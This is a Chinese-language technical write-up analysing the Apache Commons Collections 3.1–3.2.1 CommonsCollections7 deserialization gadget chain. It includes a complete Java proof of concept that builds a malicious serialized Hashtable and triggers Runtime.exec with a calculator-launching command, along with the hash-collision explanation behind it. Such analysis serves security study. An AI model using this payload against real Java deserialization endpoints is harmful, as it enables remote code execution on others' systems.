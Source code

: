 # CommonsCollections7利用链分析

## 前言

终于迎来最后一条链子`CommonsCollections7`，利用条件如下：
```
CommonsCollections 3.1 - 3.2.1
JDK版本未知限制
```

先看`ysoserial`给出的利用链
```
Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

可以看到从`LazyMap#get()`起后面的都是`CommonsCollections1`的内容，前面则是新知识点，也是一条寻找了其他能触发`LazyMap#get()`方法的链子
## 利用链分析

根据 gadget 先跟进`Hashtable#readObject()`方法源码
![image-20221011152526177](images/image-20221011152526177.png)

其中`s`是我们传入的输入流，分别通过`readObject()`进行反序列化赋值给`key`以及`value`，接着调用`reconstitutionPut()`方法，继续跟进
![image-20221011152715640](images/image-20221011152715640.png)

在`reconstitutionPut()`方法中，调用了`key.equals()`方法，这里我们知道`key`是可控的，根据调用链看，最终是调用了`AbstractMap#equals()`，我们继续跟进`AbstractMap`类的`equals()`方法
![image-20221011153118215](images/image-20221011153118215.png)

可以看见最终调用了`m.get()`方法，也就是如果`m`可控，则可以完成调用`LazyMap#get()`方法触发命令执行。在这里，`m`由传进来的参数`o`控制，也就是最初的`key`。

我们回到原来的`Hashtable`类，既然在`readObject()`方法对输入流进行反序列化，那么我们就去看序列化的方法`writeObject()`
![image-20221011153622433](images/image-20221011153622433.png)

这里的`entryStack.key`和`entryStack.value`则是我们通过`put()`传入的`key`和`value`。因此我们如果`put()`方法中的`key`为`LazyMap`对象的话，最终`m`则是`LazyMap`对象。

这里还剩下一个问题，就是怎么调用到`AbstractMap#equals()`方法呢？

首先我们必须构造`key`为`LazyMap`对象，最后才能调用到`LazyMap#get()`。因此我们再回来看看`LazyMap`类
![image-20221011162909030](images/image-20221011162909030.png)

搜索一遍并没有发现`LazyMap`类有`equals()`方法，但最后注意到`LazyMap`类继承于`AbstractMapDecorator`类，跟进
![image-20221011163120529](images/image-20221011163120529.png)

`AbstractMapDecorator`类含有`equals()`方法。根据前面的学习，我们会构造以下 payload

```java
Map innerMap1 = new HashMap<>();
Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
```

所以此时的`this.map`为`HashMap`类对象，因此接下来会进入`HashMap#equals()`
![image-20221011163412678](images/image-20221011163412678.png)

而`HashMap`又继承于`AbstractMap`类，因此最终会调用到`AbstractMap#equals()`方法，整条利用链就通了，妙哉。

最终 POC 为
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception {
        CommonsCollections7 commonsCollections7 = new CommonsCollections7();
        commonsCollections7.serialize();
        commonsCollections7.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap<>();
        Map innerMap2 = new HashMap<>();
        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
        lazyMap1.put("yy",1);
        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
        lazyMap2.put("zZ",1);

        Hashtable hashtable = new Hashtable<>();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        lazyMap2.remove("yy");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(hashtable);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

POC 中有几个问题需要解答。

- 为什么`Hashtable`需要 put 两次？

在`Hashtable#reconstitutionPut()`方法中，第一次进入时`tab`内容为空，无法进入 for 循环，进而没法调用到`key.equals()`方法
![image-20221011164109290](images/image-20221011164109290.png)

为了调用两次`reconstitutionPut()`方法，我们需要通过`put()`两次内容，使得` elements`的值为2，进而在 for 循环里运行两次`reconstitutionPut()`方法
![image-20221011164346546](images/image-20221011164346546.png)

- 为什么`lazyMap()`需要`yy`和`zZ`两个字符串？

还是`reconstitutionPut()`方法，`e.hash == hash`会判断上一个`key`的`hash`是否与当前`key`的`hash`相等，只有相等才能进入下一步。
![image-20221011165323252](images/image-20221011165323252.png)

而字符串`yy`和`zZ`经过`hashCode()`方法计算是相等的
![image-20221011170202472](images/image-20221011170202472.png)

那么为什么这两个字符串会相等呢？因为是字符串，所以我们跟进`String#hashCode()`方法
![image-20221011171013521](images/image-20221011171013521.png)

算法就这一句
```
h = 31 * h + val[i];
```

首先第一个`y`的`ascii`值为 121，而第一个`z`的`ascii`值为 122，经过计算：
```
a:  y->121 y-> 121*31 + 121 = 3872
b:  z->122 ？-> 122*31 + ？  = 3872  -> ? = 90
```

所以要想`a`和`b`经过`hashCode()`方法计算相等，`b`的第二个元素就得比`a`小，结果为`Z`，`Z`的`ascii`值为 90

- 为什么最后要`remove("yy")`？

问题出在`AbstractMap#equals()`方法里，`size()`的值为 1，而`m.size()`的值为 2，所以我们需要`remove`掉一个使其相等。
![image-20221012102519876](images/image-20221012102519876.png)

那么还剩一下问题，为什么是`lazyMap2.remove("yy");`？

在`Hashtable#put()`方法时也会调用一次`entry.key.equals(key)`
![image-20221012103923937](images/image-20221012103923937.png)

因此在`hashtable.put(lazyMap2, 2);`之后跟到`AbstractMap()#equals()`方法
![image-20221012104621160](images/image-20221012104621160.png)

这里可以看到，传入`LazyMap#get(key)`中的 key 为`yy`，继续跟进`LazyMap#get()`方法
![image-20221012104834141](images/image-20221012104834141.png)

最后因为`lazyMap2`中并没有`yy`这个`key`，因此会执行一个`map.put("yy","yy")`的操作添加，所以在 POC 中，我们最后要把`lazyMap2`的`yy`给删除掉。

